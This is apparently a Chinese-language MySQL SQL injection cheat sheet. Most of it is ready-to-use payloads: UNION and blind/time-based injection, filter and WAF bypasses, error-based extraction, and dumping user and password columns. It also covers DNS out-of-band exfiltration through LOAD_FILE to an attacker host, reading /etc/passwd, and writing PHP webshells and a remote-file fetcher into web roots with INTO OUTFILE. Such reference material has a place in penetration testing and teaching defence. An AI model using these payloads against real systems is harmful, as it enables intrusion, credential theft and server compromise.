

## 一、查询数据库信息
mysql 5 联合查询；mysql 4 不支持联合查询。  

我们平时在注入中使用UNION查询一般都采用数字匹配字段的方式以达到select_expression的适用条件（即UNION后面查选的字段数量、字段数据类型都应该与最前面SELECT的一样），这是因为数字役属于几乎所有数据类型，因此可以匹配任何字段，HEX编码方式同样役属于几乎所有数据类型。  

可以使用很多单双引号，只要是成对出现的。  
``` 
SELECT * FROM Articles WHERE id = '1''';
SELECT 1 FROM dual WHERE 1 = '1'''''''''''''UNION SELECT '2';
```
union select 不能用逗号时，可以用join执行联合查询，即先join 成一个大表，再select 这个大表   
`and+1=2+union+SELECT+*+FROM+(select+version())+as+a+join+(select+22)+as+b+join+(select+33)+as+c%23`  


下面的符号可以用来注释语句：  
&#35; Hash 语法（注意浏览器访问时需要编码成%23，否则被当作锚点起始）  
/*  C-style 语法  
-- - SQL 语法  
--+ Mysql语法  
;%00 空字节  
` 反引号  

Mysql中，`/*! SQL 语句 */` 这种格式里面的 SQL 语句会当正常的语句一样被解析。  
如果在!之后是一串数字(这串数字就是 mysql 数据库的版本号)， 如：`/*! 12345 SQL 语句 */`  
当版本号大于等于该数字，SQL 语句则执行，否则就不执行。  
`UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+`  
`SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);`  

允许的字符:  
09 Horizontal Tab  
0A New Line  
0B Vertical Tab  
0C New Page  
0D Carriage Return  
A0 Non-breaking Space  
20 Space  
例子：`'and%0A%09UNION%0CSELECT%A0NULL%20%23`  

括号也可以用来绕过过滤空格的情况：  
28 (  
29 )  
例子：`UNION(SELECT(column)FROM(table))`  

AND或OR后面可以跟的字符:  
20 Space  
2B +  
2D -  
7E ~  
21 !  
40 @  
例子：`SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))`  
dual 是一个虚拟表，可以用来做测试。  
注意：  
where a_exp or b_exp 中如果 a_exp is true 是不会计算 b_exp 的，如果 a_exp is false，那 b_exp 执行且执行的次数跟表的条目有关，即如果 b_exp 是 sleep(2)，而表有3个条目，将睡眠6s 后返回。    
where a_exp and b_exp 中如果 a_exp is false 是不会计算 b_exp 的，如果 a_exp is true，那 b_exp 执行且执行的次数跟表的条目有关，即如果 b_exp 是 sleep(2)，而表有3个条目，将睡眠6s 后返回。     
在没有加() 等其他符号时， and 和 or 一起出现先计算 and，为了绕过对 and / or 的过滤，可以使用 rlike 等关键字，比如 `where 11=11 rlike sleep(10)#`。     
`?id=1%27%20AnD%201=2%20OR%20if(now()%3dsysdate()%2csleep(3)%2c0)%20And%20%271%27=%271`  

查询information_schema(>=5.0 才存在,mysql5.0以下需要字典猜表)、mysql 数据库的信息(需要root权限，表名、列名、对应权限等)  

mysql.user、information_schema.schemata、information_schema.tables、information_schema.columns、  information_schema.user_privileges  

`SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)`  
使用CONCAT()时，任何一个参数为null，将返回null， 推荐使用CONCAT_WS()。  
CONCAT_WS() 函数第一个参数表示用哪个字符间隔所查询的结果。  
`SELECT database();`  
`SELECT group_concat(schema_name) FROM information_schema.schemata;`  
`SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)`
`UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;--` MySQL 4版本时用version=9，MySQL 5版本时用version=10  
`UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename';`  
`union select concat(grantee,0x3a,privilege_type,0x3a,is_grantable) from information_schema.user_privileges`  //权限    
`SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';`


查询版本，用户，操作系统等  
``` 
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 
1,2,3,4,group_concat(version(),0x3a,database(),0x3a,user()),6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union all select 1,unhex(hex(@@version)),3/*
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=4
``` 
如果MySQL的版本是4，这应该返回TRUE.   
用5替换4，并且，如果返回的查询匹配则版本为5   
```  
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=5
http://www.qq.com/1.php?id=5 AND MID(VERSION(),1,1) = '5';
http://www.qq.com/1.php?id=5 AND ord(MID(VERSION(),1,1)) = 53;
```
---------------------------------------------------------------------------------------------------------

### 内置变量列表  
@@version  VERSION()  @@GLOBAL.VERSION 版本   
@@datadir 路径  
@@basedir  
@@version_compile_os  
@@have_openssl 如果mysqld支持客户端/服务器协议的SSL(加密)则为YES  
@@version_compile_os 判断系统类型  
@@max_allowed_packet 包或任何生成的/中间字符串的最大大小  
@@max_user_connections MySQL账户允许的最大同时连接数,0表示没限制   
@@skip_networking 如果服务器只允许本地(非TCP/IP)连接,该值为ON  
@@table_type 默认表类型(存储引擎)  
@@basedir MySQL安装基准目录  
@@character_set_database 默认数据库使用的字符集  
@@datadir 数据库存储的地方  
@@expire_logs_days 二进制日志自动删除的天数,默认是0,表示"没有自动删除"  
@@group_concat_max_len 允许group_concat()函数结果的最大长度  
@@log_error 错误日志的位置  
@@lower_case_file_system 该变量说明是否数据目录所在的文件系统对文件名的大小写敏感.ON说明对文件名的大小写不敏感,OFF表示敏感  
@@lower_case_table_names 如果设置为1,表名用小写保存到硬盘上,并且表名比较时不对大小写敏感.如果设置为2,按照指定的保存表名,但按照小写来比较  
@@plugin_dir 插件目录的路径  
@@tmpdir 保存临时文件和临时表的目录  
@@tmp_table_size 如果内存内的临时表超过该值,MySQL自动将它转换为硬盘上的MyISAM表  
@@sql_mode 当前服务器的sql模式  
@@tx_isolation 默认事务隔离级别.默认值为REPEATABLE-READ  
@@Connections 连接mysql数据库服务器的次数(不管成功还是失败)  
@@max_write_lock_count 最大写锁数量  
@@old_passwords 是否启用mysql323加密方式(就是mysql用户密码的hash是16位的)  
@@Uptime 服务器已经运行的时间   
通过id=instr(@@global.version,1)来获取global变量。@@global包含很多敏感信息，过滤了ascii,substr函数，仍可用instr来盲注。  

-------------------------------------------------------------------------------------------------------

### 可回显注入
 
从information_schema.columns可以查table_schema、table_name、column_name  
 
库  
`union select unhex(hex(group_concat(schema_name))) from information_schema.schemata`  
 
表  
`union select unhex(hex(group_concat(table_name))) from information_schema.tables where table_schema=0x(数据库名对应的十六进制）`  
 
字段  
`union select unhex(hex(group_concat(column_name))) from information_schema.columns where table_schema=0x(数据库名对应的十六进制) and table_name=0x(表名对应的十六进制）`  
 
查询数据（实例）  
`union select 1,2,3,4,concat(username,0x3a,password),6 from admin.users`  //获取到表、字段后，就可以查询所需信息了，如查询users库的admin表的用户名和密码  

插入数据（不用引号）  
```
INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 
char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 0x64)  
```

insert/update/delete 语句中注入  
`or updatexml(1,concat(0x7e,(version())),0) or`  
e.g   
INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', 'ohmygod_is_r00tgrok');  
`or extractvalue(1,concat(0x7e,database())) or`  
e.g   
UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or '' WHERE id=2 and username='Pseudo_Z';  
DELETE FROM users WHERE id=1 or extractvalue(1,coat(0x7e,database())) or '';   

------------------------------------------------------------------------------------------------------------

### 盲注查询
#### BENCHMARK() (M)
Basically, we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!  

BENCHMARK(howmanytimes, do this)    

Real World Samples    
Are we root ? woot!     
`IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`  
Check Table exist in MySQL   
`IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`  

#### sleep(seconds) (M)
Sleep for supplied seconds.  

`SELECT sleep(10); `  
Sleep 10 seconds.  
`and%20(select*from(select(sleep(10)))a)--`  
注意 sleep/benchmark 函数执行完返回值是 0，故 if(now()=sysdate(),sleep(duration),0) 返回值肯定是0。    

#### More Timing in MySQL
`select benchmark( 500000, sha1( 'test' ) );`  
`query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`  
`select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' ); `  
Enumeration data, Guessed Brute Force   
`select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`  
```
-if(now()=sysdate(),sleep(duration),0)/*'XOR(if(now()=sysdate(),sleep(duration),0))OR'"XOR(if(now()=
sysdate(),sleep(duration),0))OR"*/
```    
上面这条payload 在参数是 数字或者字符串（单双引号）的情形下都是适用的。    

```
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse(extractvalue(rand(),
concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1)))),1)  
```
上面这条用于 order by limit 之后的timing注入，注意这里不能用sleep函数。  
 
#### Out of Band Channel Attacks
原理：使用unc路径，会对指定的域名进行dns查询，使用dns信道，配合dns服务器收到的数据可快速得到数据内容。    
使用dns有一定的好处，可以突破主机网络隔离，例如dmz主机不能直接连外网，但是配置的网络可达的dns服务器往往可以，通过查询域名递归的方式，dns服务器可以将返回数据通过dns协议带出去。    
unc路径是windows下的特性，默认安装的linux下不存在这样的功能。    
    
1）受害主机执行一条特定payload语句，将数据和指定域名拼接，向dns server发送dns请求    
2）dns server因为没有记录这个域名所对应的ip，递归向上层dns server请求    
3）直到递归请求到有这个根域名记录的根dns server（一般为域名注册商），返回给最初的dns server可以去找这个代号为2的dns server解析    
4）这个代号为2的dns server是hacker伪造的，所以hacker可以收到传过来的dns请求，从中剥离数据    

`?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('\\\\',({INJECTION}), '.yourhost.com\\'))) `  
Makes a NBNS query request/DNS resolution request to yourhost.com  

`?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\yourhost.com\\share\\output.txt')`  
Writes data to your shared folder/file  

{INJECTION} = You want to run the query.  
  
查版本：  
 
`id=1 and (select case when(select substring(version(),1,1) > 4) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名长度：  
`id=1 and (select case when(select length(user()) > 10) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名第一个字符内容：  
`id=1 and (select case when(select ascii(substring(user(),1,1)) = 120) then 1 else 1*(select 1 union select 2)end)=1`
`id=5 and ascii(substring((select concat(username, 0x3a, passwd) from users limit 0,1), 1,1)) > 64` /&#42;可利用二分法判断&#42;/  
 
查数据库长度  
`http://172.16.196.23//noruletest/sql.php?id=1 and+length(database())=12%23`  
 
查询首字母、第二个字母等等  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),1)='d'%23`  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),2)='db'%23`  
 
盲注也可以借助正则 regexp，更有效率。  
注意：group by, order by, having 后面都可以接 and、or 。  

---------------------------------------------------------------------------------------------------------------

### 报错注入

#### order by 报错
注意这里的 order by 1，1 表示select 中的第一列，group by 1 同理。但 select 1, 2, 3 类似这些表示的是数字1，2，3。  
order by &#96;id&#96;,2,3 被反引号括起来的只能是具体列名。  
Finding how many columns in SELECT query by ORDER BY  
Finding column number by ORDER BY can speed up the UNION SQL Injection process.  

ORDER BY 1--  
ORDER BY 2--  
ORDER BY N-- so on  
Keep going until get an error. Error means you found the number of selected columns.  

Even though GROUP BY and ORDER BY have different funcionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.  
1' GROUP BY 1,2,3,4,5--+	Unknown column '4' in 'group statement'  
1' ORDER BY 1,2,3,4,5--+	Unknown column '4' in 'order clause'  

先使用order by 找到select 语句的列数（可以使用二分查找缩短查找时间），遍历列位置替换成md5()，如 `union select 1,2,md5("123232"),4`，看返回是否是md5 函数执行之后的字符串，当满足某一列的类型是字符串时就会回显成功。  

#### order by limit 
所以如果注入点前面没有order by 关键字，就可以顺利的使用union 关键字，如果有只能用此种办法，但使用analyse()只能5.0.0<mysql<5.6.6的版本  
```
mysql> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),
concat(0x3a,version())),1);
 
ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'
```

#### 字符集问题
mysql 在存储数据的时候会根据当前数据库的字符集来校验数据，发现非法数据时会抛弃其后续数据。  
当表的字符集是utf8_general_ci 时，测试SQL：`Insert into table values (concat('ab', 0x80, 'cd'))`，因为0x80不是有效的UTF-8字符，所以只有ab被写入数据库中，cd会被截断。  
当表的字符集是gbk_chinese_ci 时，测试SQL：`Insert into table values (concat('ab', 0x8027, 'cd'))`，因为0x8027不是有效的gbk字符，所以只有ab被写入数据库中，cd会被截断。  

#### floor rand 报错
RAND() in a WHERE clause is re-evaluated every time the WHERE is executed.  
You cannot use a column with RAND() values in an ORDER BY clause, because ORDER BY would evaluate the column multiple times.  
也就是说在 group by 查询以及插入临时表时都会计算 rand()，如果两次结果不一样，就会出错。  
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=0 union select 1,count(*), 
concat((select email_id from emails where id=5),0x2a,floor(rand(0)*2))x from users group by x--+
```
#### bigint 报错
我们知道，如果一个查询成功返回，其返回值为0，所以对其进行逻辑非的话就会变成1，举例来说，如果我们对类似 `(select*from(select user())x)` 这样的查询进行逻辑非的话，返回值就是1，对 0 取反得到无符号的最大BIGINT值，1 减去最大 bigint 值导致 BIGINT value is out of range 错误。  
`http://localhost/dvwa/vulnerabilities/sqli/?id=1' or !(select*from(select user())x)-~0-- -&Submit=Submit#`

#### extractvalue, updatexml 报错
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`  
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`


## 二、读文件
 
### 判断权限  
`and (select count(*) from mysql.user)>0` /&#42; 返回正常,说明有读写权限（file_priv权限）  
`and (select count(*) from mysql.user)>0` /&#42;  返回错误则无  

（超级用户的系统文件无法读，超过大小的文件无法读，只有php+mysql的需要考虑魔术引号）  
 
load_file() 函数（win系统的C:\boot.ini）  
- 文件必须在服务器上。  
- LOAD_FILE()函数操作文件的当前目录是@@datadir 。  
- 需要连接数据库的用户有file_priv 权限，且启动mysqld 用户必须拥有对此文件读取的权限。  
- 如果secure_file_priv非空，则只能读取对应目录下的文件
> For security reasons, when reading text files located on the server, the files must either reside in the database directory or be readable by all. Also, to use LOAD DATA INFILE on server files, you must have the **FILE privilege**.
- 文件大小必须小于 max_allowed_packet。  
- @@max_allowed_packet的默认大小是1047552 字节.  

`test.php?id=1'/**/union/**/select/**/1,load_file('c:/boot.ini')`  //magic_quotes_gpc = off  
`test.php?id=1'/**/union/**/select/**/1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  //magic_quotes_gpc = on/用ascii 编码下即可  
`test.php?id=1'/**/union/**/select/**/1,load_file(0x633A5C626F6F742E696E69),3/*`   //magic_quotes_gpc = on/用16进制即可  
 
`load_file(0x2f6574632f706173737764)` （*nix系统的/etc/passwd）  
id=1 and(select &#96;load_file&#96;(0x2f6574632f706173737764)>0x726f66) # 由于mysql 语法特性&#96;函数名&#96;()等价于函数名()   

### mysql 3.x  
```
mysql>create table a (cmd text);
mysql>load data infile 'c:\\boot.ini' into table a;
mysql>select * from a;

mysql>create table potatoes(line blob);
mysql>union select 1,1, hex(load_file('/etc/passwd')), 1,1 into dumpfile '/tmp/potatoes';
mysql>load data infile '/tmp/potatoes' into table potatoes;
```
### mysql 4.x  
同上  

### mysql 5.x  
`mysql>system cat /etc/passwd`
 
## 三、写文件
需要连接数据库的用户有file_priv 权限，且启动mysqld 的用户对目录需要有写权限，需要物理路径（爆路径漏洞或phpinfo），不存在重名文件，不过滤`'"`(因为没有办法编码路径名)，如果secure_file_priv非空，则写入文件的目录只能为对应目录下。注意：普通用户创建的文件默认权限是 644，但如php/jsp/asp 这些脚本是不需要可执行权限就能访问而被执行的，如 perl/python/bash/c++ 等写成的cgi 是需要可执行权限才能执行的。  
`test.php?id=1 union select 1,2,3,4,"<?php @eval($_POST[cmd])?>",6 into outfile "/var/www/shell.php"`  
`test.php?id=1 union select 1,2,3,4,"<?php @eval($_POST[cmd])?>",6 into dumpfile "/var/www/shell.php"`  
`SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'`  
FIELDS TERMINATED BY 原理为在输出数据的每个字段之间插入webshell内容，所以如果select返回的只有一个字段，则写入的文件不包含webshell内容，例如下面语句：  
`SELECT username FROM user WHERE id = 1 into outfile 'D:/1.php' FIELDS TERMINATED BY 0x3c3f70687020706870696e666f28293b3f3e`  
写入的文件中只包含username的值而没有webshell内容;    

LINES TERMINATED BY和LINES STARTING BY原理为在输出每条记录的结尾或开始处插入webshell内容，所以即使只查询一个字段也可以写入webshell内容，更为通用。此外，该类方式可以用于limit等不能union的语句之后进行写文件操作。  

dumpfile与outfile函数区别  
 
SELECT into outfile :可以导出每行  
 
SELECT into dumpfile :只能导出一行（将目标文件写入同一行内）  
 
into outfile不可导出二进制文件，文件会被破坏，转义等  
 
into dumpfile可导出完整可执行二进制文件  
 
into outfile:导出内容  
  
into dumpfile:导出二进制文件  
 

## 四、直接写exe,dll文件提权

MYSQL只要数据能在对应数据类型的列中完整存储，就可以导出任意文件名的完整文件。也就是说，我们把二进制文件用HEX()编码后可以存储在TEXT数据类型等非二进制编码的字段上，导出时UNHEX()解码依然能保存为完整的二进制文件。如  
```
mysql>create table a (id int,cmd TEXT);
mysql>insert into a (id,cmd) values (1,hex(load_file('c:\\windows\\system32\\regedt32.exe')));
mysql>select unhex(cmd) FROM a where id =1 INTO DUMPFILE 'd:\\regedt32.exe';
```
语句中unhex(cmd)已经改变了所选字段的数据类型为二进制，因此可以导出完整的二进制文件，而在注入中我们用UNION连接SELECT语句时，UNION后面查询的字段数量、字段数据类型都得与最前面的SELECT一样，此时  

`SELECT cmd FROM a where id=1 and 1=2 UNION SELECT unhex(cmd) FROM a INTO DUMPFILE 'd:\\regedt32.exe';`

语句中unhex(cmd)字段的数据类型与最前面的cmd字段的数据类型不同，二进制编码的数据无法在TEXT数据类型中完整储存，因此无法导出完整的二进制文件。要导出完整的二进制文件，最前面SELECT所选的字段中必须有以二进制存储数据的数据类型，如BLOB,LONGBLOB等。  

如果使用INTO DUMPFILE导出数据，则MySQL只把一行写入到文件中，不对任何列或行进行终止，也不执行任何转义处理。INTO DUMPFILE 的这个特性说白了就是“无缝连接”，它既可以用于从列中导出数据到文件，也可以用于从表中导出数据到文件。  

UNHEX()函数执行从HEX()的反向操作，0x 作用与UNHEX()意义相同。就是说，它将参数中的每一对十六进制数字理解为一个数字，并将其转化为该数字代表的字符，结果字符以二进制字符串的形式返回。  

## 五、mysql 的类型隐式转换
```
mysql> SELECT * FROM users WHERE username = 'a'+'b' AND password = 'a'+'b';
+--------+----------+--------------------+
| userid | username | password           |
+--------+----------+--------------------+
|      1 | admin    | MySuperS3cretPass! |
+--------+----------+--------------------+
1 row in set, 7 warnings (0.00 sec)
mysql> SELECT * FROM users WHERE username = 'a'+'666' AND password = 'a'+'b';
+--------+----------+----------+
| userid | username | password |
+--------+----------+----------+
|      2 | 666admin | nataSmaI |
+--------+----------+----------+
```
加号在这里是算术运算符，故会产生类型转换为double，如下引用所示：  
> When an operator is used with operands of different types, type conversion occurs to make the operands compatible.
In all other cases, the arguments are compared as floating-point (real) numbers.  

这是一条绕过 WAF 的 vector。  

## Reference
[sql-injection-cheat-sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)  
[Implicit type conversion in MySQL](https://tom.vg/2013/04/mysql-implicit-type-conversion/)  
[sql_injection](http://websec.ca/kb/sql_injection)  
